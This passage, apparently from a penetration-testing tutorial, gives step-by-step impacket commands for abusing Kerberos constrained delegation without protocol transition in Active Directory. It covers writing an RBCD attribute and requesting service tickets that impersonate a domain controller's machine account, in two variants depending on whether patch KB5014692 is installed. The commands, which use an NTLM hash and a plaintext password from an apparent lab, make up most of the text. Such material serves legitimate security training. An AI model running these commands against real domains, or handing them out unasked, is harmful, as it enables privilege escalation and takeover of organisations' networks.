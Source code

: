 ### Self CD without Protocol Transition (without KB5014692 patch):

For the machine account delegator$ constrained delegation without protocol transition is configured for http/dc01.domain.ru service. To abuse this type of delegation, you can assign the RBCD (Resource-based Constrained Delegation) attribute to yourself (delegator$) and then perform TGS service ticket requests using impacket-getST. Please note how s4u2self and s4u2proxy works in this case.

```
getTGT.py domain.ru/'delegator$' -hashes :fcb5ae2b5e8c05d7a938bbe8649e4a44 -dc-ip 10.10.10.100
export KRB5CCNAME=delegator\$.ccache
impacket-rbcd 'domain.ru/' -k -delegate-to 'delegator$' -use-ldaps -debug -action write -delegate-from 'delegator$'
impacket-getST -impersonate "dc01$" "domain.ru/delegator$" -k -no-pass -spn "browser/dc01.domain.ru"
impacket-getST -impersonate "dc01$" "domain.ru/delegator$" -k -no-pass -spn "http/dc01.domain.ru" -additional-ticket "dc01$.ccache"

```

However, this method may not work if patch [KB5014692](https://twitter.com/_nwodtuhs/status/1543572195217182721) is installed. In this case, you need another machine account, or any account with the SPN attribute.

### CD without Protocol Transition and additional SPN account (with KB5014692 patch):

```
getTGT.py domain.ru/'delegator$' -hashes :fcb5ae2b5e8c05d7a938bbe8649e4a44 -dc-ip 10.10.10.100
export KRB5CCNAME=delegator\$.ccache
impacket-rbcd 'domain.ru/' -k -delegate-to 'delegator$' -use-ldaps -debug -action write -delegate-from jaki_spn
impacket-getTGT 'domain.ru/jaki_spn:s4per$ecu4r3'
export KRB5CCNAME=jaki_spn.ccache
impacket-getST -spn "browser/dc01.domain.ru" -impersonate "dc01$" "domain.ru/jaki_spn" -k -no-pass
describeTicket.py dc01$.ccache

```

![Image](/img/acl_ad_cd/3.png)
